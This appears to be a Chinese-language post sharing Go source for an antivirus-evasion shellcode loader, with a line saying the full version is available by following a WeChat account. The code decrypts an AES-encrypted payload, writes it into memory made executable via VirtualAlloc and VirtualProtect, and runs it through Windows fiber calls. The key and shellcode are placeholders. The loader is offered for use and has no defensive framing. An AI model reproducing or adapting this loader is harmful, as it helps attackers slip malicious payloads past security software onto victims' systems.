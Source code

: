 硬编码部分代码如下，如果想获取完整的硬编码shellcode loader关注公众号回复：免杀 即可拥有

```
var iv = "0000000000000000"

func PKCS5UnPadding(origData []byte) []byte {
	length := len(origData)
	unpadding := int(origData[length-1])
	return origData[:(length - unpadding)]
}
func ees(decodeStr string, key []byte) ([]byte, error) {
	decodeBytes, err := base64.StdEncoding.DecodeString(decodeStr)
	if err != nil {
		return nil, err
	}
	block, err := aes.NewCipher(key)
	if err != nil {
		return nil, err
	}
	blockMode := cipher.NewCBCDecrypter(block, []byte(iv))
	origData := make([]byte, len(decodeBytes))

	blockMode.CryptBlocks(origData, decodeBytes)
	origData = PKCS5UnPadding(origData)
	return origData, nil
}

func main() {
	const (
		MemCommit       = 0x1000
		MemReserve      = 0x2000
		PageExecuteRead = 0x20
		PageReadwrite   = 0x04
	)
	var infoList = [...]string{"aes-key", ""}
	infoList[1] = "shellcode"
	sc, _ := ees(infoList[1], []byte(infoList[0]))
	shellcode, _ := hex.DecodeString(string(sc))

	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
	ntdll := windows.NewLazySystemDLL("ntdll.dll")
	VirtualAlloc := kernel32.NewProc("VirtualAlloc")
	VirtualProtect := kernel32.NewProc("VirtualProtect")
	RtlCopyMemory := ntdll.NewProc("RtlCopyMemory")
	ConvertThreadToFiber := kernel32.NewProc("ConvertThreadToFiber")
	CreateFiber := kernel32.NewProc("CreateFiber")
	SwitchToFiber := kernel32.NewProc("SwitchToFiber")
	fiberAddr, _, _ := ConvertThreadToFiber.Call()
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(shellcode)), MemCommit|MemReserve, PageReadwrite)
	_, _, _ = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
	oldProtect := PageReadwrite
	_, _, _ = VirtualProtect.Call(addr, uintptr(len(shellcode)), PageExecuteRead, uintptr(unsafe.Pointer(&oldProtect)))
	fiber, _, _ := CreateFiber.Call(0, addr, 0)
	_, _, _ = SwitchToFiber.Call(fiber)
	_, _, _ = SwitchToFiber.Call(fiberAddr)

}
```
